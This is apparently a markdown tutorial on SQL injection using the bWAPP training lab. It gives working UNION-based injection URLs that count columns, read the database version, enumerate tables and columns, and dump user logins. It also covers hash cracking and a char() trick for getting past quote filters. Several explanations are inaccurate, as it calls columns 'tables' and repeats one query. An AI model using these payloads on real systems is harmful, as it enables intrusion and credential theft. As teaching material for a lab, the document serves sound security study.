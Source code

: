 ##SQL Injection
Structured Query Language (SQL) is used to many developers to insert and retrieve information from a common relational database. Whenever you see a website that does more than just display static information (i.e. letting users make posts or create accounts) it is most likely using a database. Most Wordpress sites run on SQL databases. The standard SQL command looks like this:
```sql
select * users where name='Simeon'
```
This sql would statement simply pull my account information within a web application. In a web application, the developer might dynamically generate a sql statement based on the user input. 

Suppose the developer wanted to select users based on your input, the sql statement might look like this:
```sql
select * users where name='[NAME]'
```
The problem with this is that you (you sneaky person you ;] ) might try to enter a value to break that sql statement or use it to extract more information from the database than you are entitled to (usernames, passwords, ssn numbers, etc...).

Let's start with the bwapp SQL Injection (Search/GET) exercise.

You should begin by playing around with the search box and entering various values to see what happens. If you simply press enter, all the movies are returned. However, if you enter a single quote ', you get the following error
```
Error: You have an error in your SQL syntax; check the manual that corresponds to your
MySQL server version for the right syntax to use near '%'' at line 1
```
This is because you have broken the dynamic sql statement was supposed to be generated from your input (congratulations on being a bAd@$$-H@CK3R!). We can assume the sequel statement looked something like this:
```
select * from movie where title=' + [YOUR INPUT] + '
```
I can tell by looking at the url ;). By inputing a single quote, or anything followed by a single quote, you break the sql statement because it now has too many quotes. Suppose you entered "iron man'", then the resulting sql statement would be:
```
select * from movie where title='iron man''
```
That's one quote too many! And sql being picky with syntax has no idea how to interpret that. If you ever get this result on any website, you are clear to wreak havoc (at your own risk, of course).
 
For this next section, we'll switch from using the input field to messing with the url of the page. This will work because the input is being submitted though a GET request. Go ahead and give it a try! Instead of search using the input box, just replace everything after the "?title=" in the url with your search term. You should get the same results as using the search box. 

###First, we'll try to guess how many tables are in database!

We can achieve this using sql's ORDER BY command. You can use it like so:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' ORDER BY 99-- -
```
First we should recognize that the sql command outputed from like probably looks like:
```
select * from movie where title='1' ORDER BY 99-- -
```
The "-- -" is the SQL syntax for commenting. We want to negate anything that comes after our input so we can be sure about the command's behavior. 

You should get an error from the command above. Since we will always get an error if we order by more than the number of tables that exist, we can keep trying it with a small number until we no longer get an error. At that point we will know how many tables exist in the database. 

If you order order by any number less than 7, you should no longer have an error. Instead, it should say "No movies were found!". Great! Now we can use "union select" command to extract information from other tables. The union select injection only works if we know exactly how many tables exist. It works as follows:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,2,3,4,5,6,7-- -
```
In this injection, each of the numbers represents a table in the database. If this works, we can replace some of the values to get information about the actual tables. We can use the following to get the of the database:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,@@version,3,4,5,6,7-- -
```
If you google the resulting version, you can learn more about the database's mechanism and vulnerabilities making your hack job a whole lot easier. 

You can also grab the table names in this manner:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,table_name,3,4,5,6,7 from
information_schema.tables-- -
```
Note that most of these tables are autogenerated. The user generated tables appear to be "users", "blog", "heroes", "movies", "login". We can probably get some valuable information from these tables. You can similarly grab the column names. Although they aren't labeled by table, you can probably guess which table they belong to. 
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns-- -
```
Now if we actually wanted to know, we could simply use a "where" condition to filter these columns.
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name="users"-- -
```
Now for the exciting part: we can go ahead steal the usernames and passwords
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 
from users-- -

http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 
from users-- -
```
Once you get the hash of the password, you can simple google it to find to clear text value if it is a simple password. If if is more complicated and a simple search doesn't find it, you can use a hash cracker like [John the Ripper](http://www.openwall.com/john/) 

###Bonus!
Suppose we have a sensible developer who eliminates the use of quotes and special characters in the input (because she knows about people like us). We can cheat by using the "char" function to convert our word character by character from numberical values to their ascii representation. You can either use and ascii table or an [ascii to text converter](http://www.unit-conversion.info/texttools/ascii/) to get the value of each character, and have the browser interpret the result using the "char" function. The two commands below should yield the same results.
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name=char(117,115,101,114,115)-- -

http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name="users"-- -
```